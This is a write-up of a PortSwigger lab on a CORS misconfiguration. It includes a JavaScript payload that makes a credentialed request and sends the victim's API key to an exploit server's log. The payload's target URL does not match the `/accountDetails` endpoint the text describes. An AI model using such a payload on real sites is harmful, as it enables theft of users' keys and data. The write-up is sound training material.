

This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`.

When logging in  with the user, there is an AJAX request being performed to `/accountDetails` that retrieves us the user's API key: 


We can see that there is an `Access-Control-Allow-Credentials` header, which basically tells us that maybe there is a CORS misconfiguration.

Sending the same request but with an `Origin` header (as if we were calling this endppoint from a malicious script) returns us a 200 OK: 


The CORS is misconfigured to allow the retrieval of data from a malicious source.

Let's create the payload that retrieves the API key:
```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0abd00c204747139805badf1004b0061.web-security-academy.net/',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```
This will send all the JSON info in the request to the Exploit server.

Enviando el payload vemos la request con la key:


Enviando la key tenemos la respuesta: 
`cxVB7FcrjaqNEbXQWrwcVFvIaXZC7WED`


